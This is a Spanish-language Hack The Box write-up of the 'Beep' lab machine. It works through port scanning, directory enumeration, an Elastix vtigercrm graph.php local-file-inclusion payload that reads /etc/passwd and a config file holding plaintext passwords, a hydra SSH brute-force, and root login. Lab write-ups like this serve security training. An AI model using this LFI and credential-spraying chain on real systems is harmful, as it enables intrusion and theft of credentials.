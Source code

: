 # Beep ![Avatar](https://www.hackthebox.eu/storage/avatars/995f465295b99869fce21ecadea4604c_thumb.png)

## Initial Scan
```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES LOGIN-DELAY(0) PIPELINING EXPIRE(NEVER) STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE USER UIDL TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ATOMIC THREAD=ORDEREDSUBJECT ACL CHILDREN OK IMAP4 URLAUTHA0001 X-NETSCAPE LIST-SUBSCRIBED ID ANNOTATEMORE UIDPLUS Completed IMAP4rev1 CONDSTORE SORT=MODSEQ STARTTLS QUOTA NO CATENATE UNSELECT RENAME LITERAL+ NAMESPACE LISTEXT THREAD=REFERENCES IDLE RIGHTS=kxte SORT BINARY MAILBOX-REFERRALS MULTIAPPEND
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-29T08:26:37+00:00; +10s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
```

## Enumeration

### HTTP
#### Gobuster
```bash
gobuster -u https://10.10.10.7/ -w /usr/share/dirb/wordlists/big.txt -t 100 -k
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/cgi-bin/ (Status: 403)
/configs (Status: 301)
/favicon.ico (Status: 200)
/help (Status: 301)
/images (Status: 301)
/lang (Status: 301)
/libs (Status: 301)
/mail (Status: 301)
/modules (Status: 301)
/panel (Status: 301)
/recordings (Status: 301)
/robots.txt (Status: 200)
/static (Status: 301)
/themes (Status: 301)
/vtigercrm (Status: 301)
/var (Status: 301)
```
Accediendo a la web vemos que la tecnología usada es Elastix, busquemos en Searchsploit
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                            | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                          | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                    | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                 | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                               | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                           | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

## Exploit

Vamos a probar el LFI
```URL
https://www.exploit-db.com/exploits/37637
```
Checkeando el exploit vemos que para explotar el LFI usamos el siguiente payload
```
payload = Hostname + '/vtigercrm/graph.php?current_language=../../../../../../../../' + RouteToFile + '%00&module=Accounts&action'
```
Accedamos a /etc/passwd para enumerar usuarios con acceso via terminal
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action

root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```
Tenemos 6 usuarios disponibles veamos si las creds para alguno coinciden con las creds de la pagina

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=amp111
FOPPASSWORD=passw0rd
```
Generamos una lista con los 6 usuarios y las contraseñas que tenemos y probamos con hydra
```bash
hydra ssh://10.10.10.7 -L users.txt -P passwords.txt
```
Casi inmediatamente obtenemos resultados
```
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```
Cuando nos logeamos nos da un pequeño problema con el intercmabio de claves
```
no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
Para solucionarlo y poder logearnos sin problemas con el intercambio de claves usamos el siguiente comando
```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1
```
Y ya solo nos faltaría obtener las dos flag
```
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# wc -c root.txt 
33 root.txt
[root@beep ~]# find / -name user.txt -exec wc -c {} \; 2>/dev/null
33 /home/fanis/user.txt
```
# Analisís de la intrusiín
### Sensible data leak
Por una mala congiguración de la aplicacion web (de la propia aplicacion no de la administración) los archivos de configuración del servicio, con las contraseñas hardcodeadas ha quedado expuesto
